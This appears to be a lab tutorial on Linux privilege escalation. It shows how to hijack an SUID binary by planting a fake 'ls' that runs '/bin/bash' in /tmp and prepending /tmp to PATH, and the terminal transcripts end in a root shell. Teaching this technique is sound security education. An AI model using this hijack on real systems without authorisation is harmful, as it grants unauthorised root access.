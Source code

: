 Exploiting PATH variable

What is PATH?

PATH is an environmental variable in Linux and Unix-like operating systems which specifies directories that hold executable programs. When the user runs any command in the terminal, it searches for executable files with the help of the PATH Variable in response to commands executed by a user.

It is very simple to view the Path of the relevant user with help of the command "echo $PATH".

How does this let us escalate privileges?

Let's say we have an SUID binary. Running it, we can see that it’s calling the system shell to do a basic process like list processes with "ps". Unlike in our previous SUID example, in this situation we can't exploit it by supplying an argument for command injection, so what can we do to try and exploit this?

We can re-write the PATH variable to a location of our choosing! So when the SUID binary calls the system shell to run an executable, it runs one that we've written instead!

As with any SUID file, it will run this command with the same privileges as the owner of the SUID file! If this is root, using this method we can run whatever commands we like as root

Let's go to user5's home directory, and run the file "script". What command do we think that it's executing?
```
user5@polobox:/$ cd /home/user5
user5@polobox:~$ ls
Desktop    Downloads  Pictures  script     Videos
Documents  Music      Public    Templates

user5@polobox:~$ ./script
Desktop    Downloads  Pictures	script	   Videos
Documents  Music      Public	Templates
```
ls

Now we know what command to imitate, let's change directory to "tmp". 
Now we're inside tmp, let's create an imitation executable. The format for what we want to do is:

echo "[whatever command we want to run]" > [name of the executable we're imitating]

What would the command look like to open a bash shell, writing to a file with the name of the executable we're imitating
```
echo "/bin/bash" > ls
```

Now we've made our imitation, we need to make it an executable. What command do we execute to do this?
```
chmod +x ls
```
Now, we need to change the PATH variable, so that it points to the directory where we have our imitation "ls" stored! We do this using the command "export PATH=/tmp:$PATH"

Note, this will cause you to open a bash prompt every time you use "ls". If you need to use "ls" before you finish the exploit, use "/bin/ls" where the real "ls" executable is. 

```
user5@polobox:/tmp$ echo "/bin/bash" > ls
user5@polobox:/tmp$ chmod +x ls
user5@polobox:/tmp$ export PATH=/tmp:$PATH
user5@polobox:/tmp$ ls
Welcome to Linux Lite 4.4 user5
 
Sunday 15 December 2024, 20:13:54
Memory Usage: 364/1991MB (18.28%)
Disk Usage: 6/217GB (3%)
Support - https://www.linuxliteos.com/forums/ (Right click, Open Link)
 
user5@polobox:/tmp$
```
Once you've finished the exploit, you can exit out of root and use "export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:$PATH" to reset the PATH variable back to default, letting you use "ls" again

Now, change directory back to user5's home directory.

Run the "script" file again, you should be sent into a root bash prompt
```
user5@polobox:/tmp$ cd ~
user5@polobox:~$ ./script
Welcome to Linux Lite 4.4 user5
 
Sunday 15 December 2024, 20:19:05
Memory Usage: 363/1991MB (18.23%)
Disk Usage: 6/217GB (3%)
Support - https://www.linuxliteos.com/forums/ (Right click, Open Link)
 
root@polobox:~#
```

